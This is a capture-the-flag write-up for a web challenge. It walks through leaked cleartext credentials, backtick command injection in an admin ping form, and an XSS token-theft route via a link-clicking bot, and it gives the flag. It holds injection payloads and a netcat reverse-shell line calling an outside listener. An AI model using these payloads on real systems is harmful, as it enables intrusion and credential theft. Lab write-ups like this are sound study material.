









# Visiting the site

Visiting the site has an option to login or register.





# Login

Checking the traffic reveals the `/requestUsers` endpoint . It has cleartext credentials for all of the users.





# Admin

There is a simple form that can be used to ping hosts, only available to admins.



Giving out some errors on malformed input or error.

```json
{"error": "No valid IP address found"}
{"error": "Command execution failed: exit status 1"}
```

# Command injection

It is vulnerable to command injection with backticks for example. The input should contain a valid ip address.

Now there are 2 pings.

```
127.0.0.1 -c `echo 2`
```



There is `nc` on the server, opening a reverse shell is trivial.

```bash
`nc 10.8.0.59 8000 -e /bin/sh` 127.0.0.1 
```



# Flag
`hcsc25{H3y_BoRrow1ng_1s_n0t_Ste4l1ng}`

# XSS

This was probably the intended solution.

After registering and logging in as regular user, the complaints are vulnerable to XSS as well. The login token is stored inside local storage, and can be stolen.

```html

```

There were some bots on the discord server, named Xavier. As stated in the challenge description, sending any link (from the webapp) to the bot would be opened. After a few messages figuring out the syntax, the specific complaint with the XSS is visited.



And the token is stolen, which can be used to access the admin page.



# Binaries

The server files were taken from the challenge after code execution. They are in [app.tar.gz](src/app.tar.gz).